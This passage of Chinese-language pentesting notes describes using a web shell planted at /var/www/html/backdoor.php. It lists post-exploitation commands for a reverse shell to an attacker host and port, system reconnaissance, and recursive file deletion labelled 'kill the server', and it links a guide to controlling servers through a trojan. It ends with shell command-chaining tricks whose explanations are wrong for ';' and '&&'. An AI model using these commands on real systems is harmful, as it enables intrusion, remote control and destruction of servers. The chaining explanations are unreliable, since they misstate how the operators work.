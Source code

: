             - 相关技巧
                1. 此前，通过方法将生成的木马放入服务器，一般放在网站根目录 `/var/www/html/backdoor.php`，其余目录需对应更改URL
            - 常用命令
                
                <aside>
                💡 只在渗透后可用
                
                </aside>
                
                1. 打开虚拟终端：`:shell.sh`
                2. 获取系统基本信息：`:system.info`
                3. 查看php配置信息：`:audit.phpconf`
                4. 建立反弹shell到端口：`:backdoor.reverstcp [host_ip] [port]`
                5. 删除文件：`:file.rm [filename]`
                6. 干掉服务器：`:file.rm [filename] -recursive`
    - 抓包工具
        - Burp Suite：[利用木马远程控制服务器](https://www.cnblogs.com/cainiao-chuanqi/p/14352805.html)
        - WireShark：[WireShark上手教程](https://www.cnblogs.com/mq0036/p/11187138.html)
- **奇技淫巧**
    - 一句话连接两个命令的方法
        
        ```bash
        ping [ip] ; echo Hello
        ```
        
        <aside>
        💡 第一个执行成功之后，执行第二个
        
        </aside>
        
        ```bash
        ping [ip] && echo Hello
        ```
        
        <aside>
        💡 第一个执行失败之后，执行第二个
        
        </aside>
        
        ```bash
        ping [ip] || echo Hello
        ```